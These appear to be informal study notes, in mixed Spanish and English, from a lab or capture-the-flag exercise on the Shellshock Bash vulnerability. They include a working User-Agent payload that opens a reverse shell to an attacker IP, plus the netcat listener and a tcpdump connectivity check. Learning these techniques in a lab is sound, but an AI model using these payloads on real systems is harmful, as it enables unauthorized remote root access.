 Shellshock, también conocida como Bashdoor, ​ es una familia de bugs de seguridad en la ampliamente usada Bash de Shell de Unix. El primero de estos bugs fue divulgado el 24 de septiembre de 2014. [Wikipedia](https://es.wikipedia.org/wiki/Shellshock_(error_de_software))


Shellshock how attackers :
https://blog.cloudflare.com/inside-shellshock/



The idea is execute commands remotely to gain access to the system (similar to log poisoning (???))


on the url something like  CGI its an alarm sound, it can be another ... not allways "cgi".
https://10.10.10.7:100000/session_login.cgi

You allways most google the extensions of the files, in this case it can be a file written on perl or C.

Now he is goinf to intercept it with burpsuit

And we change the user agent content by this one or the command that we want to execute
```
() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

Now we can use nc to listen from our machine waiting for the reverse shell

```
nc -nlvp 443
```

and then we connect as root to that machine, with a shellshock attack


We can execute a ping from that machine to the mine and watch if we have conectivity.
```
tcpdump -i tun0 icmp
```

